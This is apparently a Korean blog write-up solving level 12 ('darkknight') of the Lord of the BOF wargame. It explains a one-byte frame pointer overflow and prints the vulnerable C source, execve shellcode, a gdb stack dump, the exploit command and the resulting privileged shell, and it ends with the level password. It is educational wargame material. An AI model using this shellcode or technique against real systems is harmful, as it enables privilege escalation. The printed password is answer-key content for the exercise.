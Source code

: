```yaml
---
title: "[LOB]Level12. darkknight"
tags: [Wargame, LOB, Write-up]
article_header:
  type: cover
  image:
    src: 
---
```


## keyword : sfp

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/
#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



problem_child 함수를 보면 41바이트만 복사하게 된다.

힌트에 나왔듯이 SFP주소에 1바이트만 Overflow 시킬수 있는 공격이 FPO(Frame Pointer Overflow) 공격이다.

SPF의 1바이트를 변경시키면 근처 스택 주소로 SFP를 변조 시킬 수 있다.



여기서 스택주소로 변경시킬 때 중요한 점은 SFP에 [원하는 주소-4] 주소를 넣어야 된다는 점이다.

그 이유는 함수가 끝날 때, leave - ret 순서로 종료하게 되게 때문이다.



```sh
(gdb) x/32x $ebp-40
0xbffffaf0:	0xbffffb18	0x4000a970	0x400f855b	0x08049530
0xbffffb00:	0x4000ae60	0xbffffb64	0xbffffb18	0x0804842b
0xbffffb10:	0x0804951c	0x08049530	0xbffffb38	0x400309cb
0xbffffb20:	0x00000001	0xbffffb64	0xbffffb6c	0x40013868
0xbffffb30:	0x00000001	0x08048390	0x00000000	0x080483b1
0xbffffb40:	0x0804846c	0x00000001	0xbffffb64	0x080482e4
0xbffffb50:	0x080484dc	0x4000ae60	0xbffffb5c	0x40013e90
0xbffffb60:	0x00000001	0xbffffc61	0x00000000	0xbffffc7a
```



```sh
[golem@localhost golem]$ ./darkknight `python -c 'print "\x90"*16+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xf0"'`
����������������1�Ph//shh/bin��PS�ᙰ
                                    ̀�����M�������	@
bash$ my-pass
euid = 512
new attacker
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
```

sfp의 끝주소를 '\xf0'으로 변경시키고, NOP와 쉘코드를 넣어준다.

> 만약 ebp-40에 바로 쉘코드를 넣었다면 **\xf0 - 4 한 값**을 넣어야 한다. 



##### **darkknight / new attacker**

